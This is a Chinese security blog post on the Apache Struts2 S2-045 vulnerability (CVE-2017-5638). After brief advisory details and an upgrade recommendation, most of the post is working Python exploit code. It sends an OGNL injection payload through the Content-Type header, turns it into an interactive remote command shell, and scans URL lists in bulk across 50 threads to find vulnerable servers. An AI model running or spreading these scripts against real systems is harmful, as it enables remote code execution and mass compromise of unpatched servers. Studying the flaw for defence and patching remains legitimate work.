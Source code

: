 ```yaml
---
title: Struts2_045漏洞
date: 2017-03-07 13:57:32
comments: true
tags: struts2
categories: 技术交流
---
```

<blockquote class="blockquote-center">Struts2是个好东西</blockquote>
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*


　　Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，漏洞评级为：高危。
<!--more -->
漏洞详情：恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞进而执行系统命令。
风险等级：高风险。
漏洞风险：黑客通过利用漏洞可以实现远程命令执行。
影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10。
安全版本：Struts 2.3.32或2.5.10.1。
修复建议：如您正在使用Jakarta文件上传插件，请升级Struts至安全版本。

更多参考：[https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)

### POC
```bash
#! -*- encoding:utf-8 -*-
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc(url):
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo nMask').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(url,datagen,headers=header)
    response = urllib2.urlopen(request)
    body=response.read()

    return body

url=sys.argv[1]
body=poc(url)
if "nMask" in body:
	print "[Loopholes exist]",url

```

### Poc_Cmd
```bash
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc(url,content="echo nMask"):
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+content+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(url,datagen,headers=header)
    response = urllib2.urlopen(request)
    body=response.read()

    return body

url=sys.argv[1]
body=poc(url)
if "nMask" in body:
	print "[Loopholes exist]",url

	while 1:
		con=raw_input("[cmd]>>")
		print poc(url,content=con)
```
运行结果：
```bash
>python s2_045_cmd.py http://xxx.com/?a.action

[Loopholes exist] http://xxx.com/?a.action

[cmd]>>ls
example1
example2
```

### 多线程批量检测

```bash
import urllib2
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
import threading

def poc(url):
	register_openers()
	datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
	header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
	header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo nMask').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
	try:
	    request = urllib2.Request(url,datagen,headers=header)
	    response = urllib2.urlopen(request,timeout=5)
	    body=response.read()
	except:
		body=""

	if "nMask" in body:
		print "[Loopholes exist]",url
		f.write(url+"\n")
	else:
		print "Loopholes not exist",url

if __name__=="__main__":
	'''
	url.txt为待检测url列表
	result.txt为检测完输出结果文件
	'''
	f=open("result.txt","a")
	url_list=[i.replace("\n","") for i in open("url.txt","r").readlines()]
	for url in url_list:
		threading.Thread(target=poc,args=(url,)).start()
		while 1:
			if(len(threading.enumerate())<50):
				break
```
POC下载地址：[https://github.com/tengzhangchao/Struts2_045-Poc](https://github.com/tengzhangchao/Struts2_045-Poc)

更多检测脚本，敬请期待......

转载请说明出处:[Struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
本文地址：http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/
